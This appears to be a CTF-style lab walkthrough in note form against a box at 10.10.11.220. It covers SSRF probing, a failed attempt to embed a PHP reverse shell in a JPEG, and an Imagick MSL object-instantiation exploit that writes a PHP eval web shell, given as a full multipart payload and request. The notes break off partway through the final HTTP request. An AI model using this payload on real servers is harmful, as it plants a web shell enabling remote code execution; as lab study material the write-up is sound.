 						- yet we get same error if filename is wrong or we change the file type so e can't enumerate like this
					- We try to reach our machine using our IP and port and we get a response on our listener but terminates connection immediately
						- So there is SSRF...
				- and our response has some data in base64
					```bash
data:image/jpeg;base64,/9j/4AAQSkZJRgABAQEASABIAAD/4gIcSUNDX1BST0ZJTEUAAQEAAAIMbGNtcwIQAABtbnRyUkdCIFhZWiAH3AABABkAAwApADlhY3NwQVBQTAAAAAAAA...
......
....LImvgaei24zGbHwf2v9KWG5j7j7PBisuZv2vNPNmvf/ALnStu4btKnwGCij5TfozxaxkYiXZUkUjXOqphgVFtwsXbz7q6zaGAjl2NysjZny4znM9iLi+FjTTwArSnw6typwU5Jzx4PEIBwszwk/yijQ2//Z
```
					- Maybe if we can upload a file with base64 encoding of a reverse shell?
				- What if we call an image with our reverse shell in it?
					- Has to be a jpg image with magic bytes
						- php reverse shell in it
						- Didn't work, didn't print data 
							- normal image it does print base64 data
- **NEW ATTACK : Arbitrary Object Instantiation vulnerability**
	- We google php initialiization vulnerability
		- **READ TO LEARN**
		- check the title ("Discovering New Ways to Exploit “new $a($b)”)
			- I searched for "magic" as in magic bytes since my image did get read 
				- **Imagick is infamous for remote code execution vulnerabilities, such as ImageTragick and others.**
				- One way of enumerating is imagick reads file size after the filename so we can add `[10x10]` or `[1x1]` in square brackets and it should change the size (so our base 64 words will be lesser)
			- talks about how we there is a magic scripting language that can read php files
			- In their RCE VID (2nd way) we see we can read and write a file into it
			- an the final exploit shows the things to make sure our header has to exploit it
- First we need to test is Imagick is being used by our target
	- add `[10x10]` to the image path]
		- we see the it returns fine but the content output has reduced so it's working
	- We note the final exploit:
		```bash
Class Name: Imagick
Argument Value: vid:msl:/tmp/php*

-- Request Data --
Content-Type: multipart/form-data; boundary=ABC
Content-Length: ...
Connection: close
 
--ABC
Content-Disposition: form-data; name="swarm"; filename="swarm.msl"
Content-Type: text/plain
 
<?xml version="1.0" encoding="UTF-8"?>
<image>
 <read filename="caption:&lt;?php @eval(@$_REQUEST['a']); ?&gt;" />
 <!-- Relative paths such as info:./../../uploads/swarm.php can be used as well -->
 <write filename="info:/var/www/swarm.php" />
</image>
--ABC--
```
	- We add the exploit details to our packet:
		```bash
POST /api/v2/admin/image/modify?path=vid:msl:/tmp/php*&effect=charcoal HTTP/1.1
Host: 10.10.11.220
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5